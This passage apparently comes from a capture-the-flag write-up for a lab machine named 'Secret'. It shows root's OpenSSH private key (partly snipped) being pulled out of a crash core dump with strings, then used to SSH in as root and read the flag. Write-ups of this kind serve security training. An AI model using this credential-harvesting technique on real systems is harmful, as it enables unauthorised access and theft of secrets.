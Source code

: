 That’s because it’s the memory of the process at the time of the crash. Running strings on it will return the file:

```

dasith@secret:/tmp/0xdf$ strings -n 30 CoreDump                       
/usr/lib/x86_64-linux-gnu/libc-2.31.so
...[snip]...
Save results a file? [y/N]: l words      = 45                                                            
-----BEGIN OPENSSH PRIVATE KEY-----           
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn          
NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3
KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+
...[snip]...
fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
-----END OPENSSH PRIVATE KEY-----
...[snip]...

```

### SSH

With the SSH key, I can SSH into the box as root:

```

oxdf@hacky$ ssh -i ~/keys/secret-root root@10.10.11.120
...[snip]...
root@secret:~#

```

And read `root.txt`:

```

root@secret:~# cat root.txt
fd1c20cd************************

```